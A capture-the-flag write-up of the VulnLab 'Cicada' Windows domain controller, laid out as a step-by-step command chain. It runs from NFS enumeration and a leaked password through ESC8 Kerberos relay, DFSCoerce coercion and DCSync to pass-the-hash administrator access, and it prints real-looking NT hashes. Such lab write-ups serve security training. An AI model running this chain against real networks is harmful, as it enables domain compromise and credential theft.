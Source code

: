 ```yaml
---
title: VulnLab -- Cicada Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [Active Directory,ESC8,ADCS]
image:
    path: images/cicada-banner.png
---
```

# Cicada

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Cicada** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/cicada-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 389,9389,53,445,49667,49671,59847,3269,139,80,2049,5985,49678,49664,593,59873,59811,464 --min-rate=1000 10.10.88.205
```

![image.png](../images/cicada.png)

Now let’s enumerate the NFS

```bash
showmount -e 10.10.88.205
```

![image.png](../images/cicada%201.png)

> Notice that we have a profiles mount
> 

Now let’s go and mount it

```bash
sudo mount -t nfs 10.10.88.205:/profiles Mount
```

![image.png](../images/cicada%202.png)

now let’s see what is in the mount directory

```bash
tree .
```

![image.png](../images/cicada%203.png)

Now let’s open the marketing cicada from the user directory

```bash
eog marketing.png
```

![image.png](../images/cicada%204.png)

> Notice that the cicada contains a password
username: Rosie.Powell
password: Cicada123
> 

Now let’s go and try it

```bash
nxc smb bruno.vl -u 'Rosie.Powell' -p 'Cicada123'
```

![image.png](../images/cicada%205.png)

> Notice that it say STATUS_NOT_SUPPORTED which mean that the NTLM authentication is disabled
> 

So let’s try again with the Kerberos auth 

```bash
nxc smb cicada.vl -u 'Rosie.Powell' -p 'Cicada123' -k
```

![image.png](../images/cicada%206.png)

and we are authenticated

So let’s go and enumerate the certificate service

First let’s get a TGT for the user Rosie

```bash
impacket-getTGT cicada.vl/Rosie.Powell:'Cicada123' -dc-ip 10.10.88.205
```

![image.png](../images/cicada%207.png)

Now let’s export the TGT

```bash
export KRB5CCNAME=Rosie.Powell.ccache
```

![image.png](../images/cicada%208.png)

Now let’s find the CA Templates

```bash
certipy-ad find -k -no-pass -debug -dc-ip dc-jpq225.cicada.vl -ns 10.10.88.205
```

![image.png](../images/cicada%209.png)

Now let’s go and get the output

```bash
cat 20250330050004_Certipy.txt | grep -i ESC8 -b50
```

![image.png](../images/cicada%2010.png)

> Notice that there is a template that is vulnerable to ESC8 which will help us relaying the Web remotely
> 

Now let’s start KRB Relay

```bash
python3 krbrelayx.py -t http://dc-jpq225.cicada.vl/certsrv/certfnsh.asp -smb2support --adcs --template DomainController -debug
```

![image.png](../images/cicada%2011.png)

Now let’s create a domain joined machine

```bash
bloodyAD -u 'rosie.powell' -p 'Cicada123' --host dc-jpq225.cicada.vl -k -d 'cicada.vl' add dnsRecord 'dc-jpq2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' 10.8.5.233
```

![image.png](../images/cicada%2012.png)

Now let’s relay

```bash
python3 dfscoerce.py -k -no-pass -dc-ip dc-jpq225.cicada.vl 'dc-jpq2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' dc-jpq225.cicada.vl
```

![image.png](../images/cicada%2013.png)

Now let’s go back and check if we go anything

![image.png](../images/cicada%2014.png)

And we did so let’s go and try to authenticate to get the machine hash

```bash
certipy-ad auth -pfx 'unknown3732$.pfx' -dc-ip 10.10.88.205
```

![image.png](../images/cicada%2015.png)

Now let’s go to perform DCSync and retrieve all the hashes

First let’s get a TGT for the Machine Account

```bash
impacket-getTGT cicada.vl/'dc-jpq225$':'' -dc-ip 10.10.88.205 -hashes :9323a945f6606ac6b44263f00218cfab
```

![image.png](../images/cicada%2016.png)

Now let’s export it

```bash
export KRB5CCNAME=dc-jpq225$.ccache
```

![image.png](../images/cicada%2017.png)

Now let’s DCSync

```bash
impacket-secretsdump -k -no-pass dc-jpq225.cicada.vl
```

![image.png](../images/cicada%2018.png)

Now let’s request a ticket for the administrator

```bash
impacket-getTGT cicada.vl/administrator:'' -dc-ip 10.10.88.205 -hashes :85a0da53871a9d56b6cd05deda3a5e87
```

![image.png](../images/cicada%2019.png)

now let’s export his ticket

```bash
export KRB5CCNAME=administrator.ccache
```

![image.png](../images/cicada%2020.png)

Now let’s try to wmi to the machine

```bash
impacket-wmiexec -k -no-pass dc-jpq225.cicada.vl
```

![image.png](../images/cicada%2021.png)

Now let’s go to the administrator desktop and see the root flag

```bash
cd c:\users\administrator\desktop
```

![image.png](../images/cicada%2022.png)

Amazing we got the root flag 🥳

![image.png](../images/cicada%2023.png)

That’s it for the **Cicada** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX